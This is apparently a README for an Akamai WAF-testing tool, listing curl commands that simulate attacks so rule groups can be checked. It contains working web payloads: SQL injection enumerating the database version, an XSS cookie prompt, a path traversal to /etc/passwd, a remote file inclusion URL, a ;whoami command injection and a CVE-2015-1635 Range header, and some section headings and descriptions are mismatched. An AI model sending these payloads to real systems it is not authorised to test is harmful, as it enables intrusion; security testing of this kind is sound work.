 # Akamai Bot Attacker

## 0x01. How It Works

- Send request with python `requests`.

## 0x02. Python Libs

- requests

## 0x03. How To Use

1. create an alias in shell rc/profile:

    ``` bash
    alias akattack="python3 ${AK_TOOLS_HOME}/05_bot_attacker/python/bot_attacker.py"
    ```

2. Reopen the terminal.
3. Using following command to run the script.

    ``` bash
    akattack
    ```

## 0x04. Attack Type

### 1. Web Attack Tool

Identifies common application-level attack tools including vulnerability scanning, exploit tools and DoS programs like Pandora, Drive, LOIC, and Hulk.

Sample Attack Simulation:
This is an example request with a User-Agent string value of a well-known open source web application vulnerability scanner. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/" --user-agent "w3af.sourceforge.net"
```

### 2. Web Protocal Attack

Identifies errors and anomalies related to the HTTP protocol including request body parsing errors and RFC violations like required request headers that are missing.

Sample Attack Simulation:
This is an example request where the Content-Type header specifies the request body content is “xml”, but doesn’t pass the data in XML format. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/" --header "Content-Type: application/xml" --data "not_xml_format"
```

### 3. SQL Injection

Identifies database attack payloads, including those used during the initial reconnaissance phase of an attack session to enumerate database details, as well as data exfiltration attempts and timing-based enumerations. The group evaluates incoming payloads using a library of attack fingerprints that our security research team updates continuously.

### 4. Sample Attack Simulation

This is an example SQLi attack that attempts to enumerate the database version in use. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/?fakeparam=-1%20UNION%20ALL%20SELECT%20%40%40version%2C2%2C3--"
```

### 5. Cross-Site Scripting

Blocks proof-of-concept attacks that attempt to identify exploit vectors, JavaScript event handler invocations, and attempts to access sensitive DOM objects.

Sample Attack Simulation:
This is an example XSS attack that attempts to trigger the JavaScript prompt function and display the current user’s cookie information. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/?fakeparam=data%22%3E%3Cscript%3Eprompt%28document.cookie%29%3C%2Fscript%3E"
```

### 6. Local File Inclusion

``` Bash
curl -D - -s "http://${HOSTNAME}/?fakeparam=.././.././../etc/passwd"
```

### 7. Remote File Inclusion

Identifies attacks including directory traversals, as well as attempts to access sensitive application configuration and operating system files.

Sample Attack Simulation:
This is an example LFI attack that attempts to directory traversal to access the operating system’s password file. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/?fakeparam=http://cirt.net/rfiinc.txt"
```

### 8. Command Injection

Identifies attempts to access and execute application-level and operating system commands including PHP code injection and web Bash/backdoor upload attempts.

Sample Attack Simulation:
This is an example CMDi attack that attempts to use the “whoami” operating system command to identify which user the web server application is running as. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/?fakeparam=something;/bin/whoami"
```

### 9. Web Platform Attack

Identifies attacks against the software platforms (including cloud, web and application-layers) that are not categorized in other attack groups.

Sample Attack Simulation:
This is an example request that specifies a Range request header payload similar to CVE-2015-1635. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/" --header "Range: 18446744073709551615"
```
